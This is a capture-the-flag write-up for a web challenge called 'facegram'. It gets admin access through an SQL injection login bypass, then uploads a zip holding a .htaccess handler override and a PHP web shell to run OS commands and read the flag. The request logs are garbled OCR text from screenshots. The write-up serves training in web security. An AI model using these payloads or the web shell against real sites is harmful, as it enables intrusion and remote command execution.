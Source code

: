 # facegram
> This punk kid stole my idea for a photo sharing site! Can you break into it for me?

## About the Challenge
We were given a website without the source code, and this website has a lot of functionality

* View uploaded image (`/view.php?id=1`)
* View profile (`/user.php?id=1`)
* Login (`/login.php`)
* Register (`/register.php`)
* Forgot password (`/forgot-password.php`)
* Upload image (`/upload.php`)


[Image extracted text: Facegram
Login
Register
facegram]


## How to Solve?
Initially, I attempted to register and log in to my account, and then successfully uploaded a PHP file. However, when visiting the uploaded file at the `/uploads/` endpoint, the output showed `403 Forbidden`


[Image extracted text: Request
Response
Pretty
Raw
Hex
51
In
=
Pretty
Raw
Hex
Render
In
POST /upload.php HTTP/1.1
HTTP/1.1
200
OK
2
Host:
thecybercoopctf-e41bf6006236-facegram-1. chals
io
2
Date
Tue,
19
Dec
2023
02:26:29
GMT
3
Cookie
PHPSESSID-9043el5bddc6c720d1627fc3797b64a0
3
Server:
Apache/2.4.54
(Debian)
Content-Length:
316
X-Powered-By
PHP/7.4.33
5 Origin:
https:
[thecybercoopctf-e41bf6006236-facegram-1. chals
io
5
Expires:
19
Nov
1981
08:52:00
GMT
Content-Type=
multipart/form-data;
6
Cache-Control:
no-store,
no-cache,
must-revalidate
boundary=
WebKitFormBoundarydzNXOAZ82pC3GpBZ
Pragma
no-cache
User-Agent
Mozilla/5.0
(Windows
NT
10
0;
Win64;
X64)
8 Vary
Accept-Encoding
AppleWebKit/537
36
(KHTML ,
like
Gecko)
Chrome
120,
0
6099 _
71
Content-Length:
1692
Safari/537
36
10
Connection:
close
Accept:
11
Content-Type
text/html;
charset=UTF_8
text/html,application/xhtml+xml,application/xml;q-0.9,image/avif
12
image/webp, image/apng
*/*;q=0.8,application/signed-exchange;v=b3;
13
Uploaded
q=0 _
14
<link
rel-"stylesheet'
href-"
Referer:
https: //stackpath.bootstrapcdn. com/bootstrap/4.3.1/css/bootstrap_
https: //thecybercoopctf-e41bf6006236-facegram-1. chals
io/upload. p
min.cSS
integrity=
hp
sha384-ggOyROiXCbMQv3Xipma34MD+dH/1fQ784/j6cY/ iJTQUOhcWr7xgJvoRxT
L0
Accept-Encoding
gzip,
deflate
br
2MZwlt"
crossorigin="anonymous
11 Accept-Language
en-US, en;q=0.9
15
<script src-"https: / /code 
jquery. cOm/jquery-3.3.1.slim.min.js"
12 Priority:
u=0
integrity=
13
Connection:
close
sha384-q81/X+965DzO0rTZabK41JStQIAqVgRVzpbzoSsmXKp4YfRvH+8abtTEIP
14
i6jizo"
crossorigin="anonymous
15
~~WebKitFormBoundarydzNXOAZ82pC3GpBZ
<lscript>
16
Content-Disposition:
form-data;
name=" image" ;
filename-"test. php"
16
<script src="
17
Content-Type:
application/x-php
https: //cdnjs.cloudflare
com/ajax/libs/popper.js/1.14.7/umd/poppe
18
r.min.
js"
integrity=
19
GIFSGA;
<php phpinfo( ) ;
2 >
sha384-UOZeTOCpHqdsJQ6hJtySKVphtPhzWjgWOIc HTMGa3JDZwrnQq4sF86IH
20
~~WebKitFormBoundarydzNXOAZ82pC3GpBZ
NDzOW1"
crossorigin="anonymous
21
Content-Disposition:
form-data;
name-"submit"
<lscript>
22
17
<script src="
23
Upload
https:_
Istackpath.bootstrapcdn. com/bootstrap/4.3.1/js/bootstrap
24
~WebKitFormBoundarydzNXOAZ82pC3GpBZ =
in.js
integrity=
25
sha384-JjSmVgydOp3pXBlrRibZUAYoIly6orQbVrjIEaFf/nJGzIxFDsf4xOxIM+
B07 jRM'
crossorigin="anonymous
<lscript>
18
19
Znau
Caccs
naubar
nauna
Vnan
naubar_licbt
ho_
iont
Thu ,]


I also tried to change the extension (Ex: .phar, .inc), the mime type, etc but it still doesn't works because the website will read my file as a plain text


[Image extracted text: https:IIthecybercoopctf-e41bf6006236-facegram-1.chals ioluploads/test phar
GIF89A; <?php phpinfo() ;
2>]


And then I attempted to exploit the website using SQL injection vulnerabilities on some endpoints but failed. Subsequently, I tried to perform SQL injection on the login page to log in as an `admin`, and it was successful. Here is the payload I used to login as an `admin`

```
username: admin' or true-- -
password: test
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
In
Pretty
Raw
Hex
Render
In
POST /login. php HTTP/1.1
HTTP/1.1
302
Found
2
Host:
thecybercoopctf-e41bf6006236-facegram-1. chals
io
2
Date
Tue,
19
Dec
2023
02:35:39
GMT
3 Content-Length:
39
3
Server:
Apache/2.4.54
(Debian)
Upgrade-Insecure-Requests
X-Powered-By
PHP/7
4.33
5
Origin:
https:
[thecybercoopctf-e41bf6006236-facegram-1. chals
io
5
Set-Cookie:
PHPSESSID-71c9130a58abcdedb5o6labccb2Sclf8; path-/
6 Content-Type
application/x-WWW-form-urlencoded
6
Expires
19
Nov
1981
08
52:00
GMT
User-Agent
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
Cache-Control:
no-store,
no-cache,
must-revalidate
AppleWebKit/537
36
(KHTML ,
like
Gecko)
Chrome/120.0.6099.71
8
Pragma
no-cache
Safari/537
36
Location:
Accept:
10 Content-Length:
text/html,application/xhtmltxml,application/xml;q-0.9, image/avif ,
11
Connection:
close
image/webp
image/apng,*/*;
8
application/signed-exchange; v=b3;
12 Content-Type
text/html;
charset-UTF-8
q=0.71
13
Referer:
14
https: //thecybercoopctf-e41bf6006236-facegram-1. chals
io/ login. ph
10
Accept-Encoding
gzip,
deflate
br
11
Accept-Language
en-US, en;q=0.9
12 Priority:
u=0
13
Connection:
close
14
15 userzadmin%27+orttrue--+-&password-test
Thu,
q=0 .]


In the admin panel, there are two new features:

* Manage user
* Upload zip file


[Image extracted text: Admin Panel
Users
Bulk Uploader]



[Image extracted text: Bulk image uploader
Select zip to upload:
Use this to bulk upload images to your admin account
Choose File
No file chosen
Upload]


Hmmm, a `zip` file? I tried uploading a random zip file, and this feature will unzip our uploaded file, placing each file from the zip in the /uploads directory.

So I created a `.htaccess` file, and its content will look like this:

```
AddType application/x-httpd-php .php16
```

I also added another PHP file, but I'm using `.php16` as the extension.

```php
<?php echo system($_GET['cmd']); ?>
```

And heck yeah! we can execute OS command right now


[Image extracted text: https:IIthecybercoopctf-e41bf6006236-facegram-1.chals ioluploads/test php16?cmd_cat%20.|-Iflag txt
flag {but_i_thought_zips_only_went_up}flag{but_i_thought_zips_only_went_up}]


```
flag{but_i_thought_zips_only_went_up}
```